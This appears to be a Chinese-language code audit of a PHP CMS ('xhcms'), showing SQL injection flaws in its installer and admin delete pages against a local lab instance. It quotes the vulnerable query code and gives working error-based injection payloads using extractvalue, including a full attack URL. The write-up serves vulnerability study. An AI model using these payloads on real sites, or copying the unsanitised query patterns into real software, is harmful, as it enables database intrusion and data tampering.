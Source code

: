 ![image-20210925161137880](/Users/DawnT0wn/Library/Application Support/typora-user-images/image-20210925161137880.png)





### /install/index.php

```
关键代码
$user=$_POST['user'];
$password=md5($_POST['password']);
$query = "UPDATE manage SET user='$user',password='$password',name='$user'";
```

我们在安好数据库后重新进入这个界面的时候需要删除该文件下的installLock.txt

![image-20210926154450729](/Users/DawnT0wn/Library/Application Support/typora-user-images/image-20210926154450729.png)

```
1' or extractvalue(1,concat(0x7e,(select version()),0x7e))#
```

![image-20210926154718367](/Users/DawnT0wn/Library/Application Support/typora-user-images/image-20210926154718367.png)

看到出现对应版本

![image-20210926154654680](/Users/DawnT0wn/Library/Application Support/typora-user-images/image-20210926154654680.png)



### /admin/files/wzlist.php

```
$delete=$_GET['delete'];
if ($delete<>""){
$query = "DELETE FROM content WHERE id='$delete'";
$result = mysql_query($query) or die('SQL语句有误：'.mysql_error());
echo "<script>alert('亲，ID为".$delete."的内容已经成功删除！');location.href='?r=wzlist'</script>";
exit; 
}
```

这里对delete参数没有经过严格的过滤,可以进行SQL注入

```
http://192.168.121.130/xhcms/admin/?r=wzlist&delete=1' or extractvalue(1,concat(0x7e,(select version()),0x7e))--+
```

![image-20210926155638018](/Users/DawnT0wn/Library/Application Support/typora-user-images/image-20210926155638018.png)

### /admin/files/softlist.php

和上个文件一样,出现漏洞点的代码都是一样的,打开文件就能看到

```
$delete=$_GET['delete'];
if ($delete<>""){
$query = "DELETE FROM download WHERE id='$delete'";
$result = mysql_query($query) or die('SQL语句有误：'.mysql_error());
echo "<script>alert('亲，ID为".$delete."的内容已经成功删除！');location.href='?r=softlist'</script>";
exit; 
}
?>
```
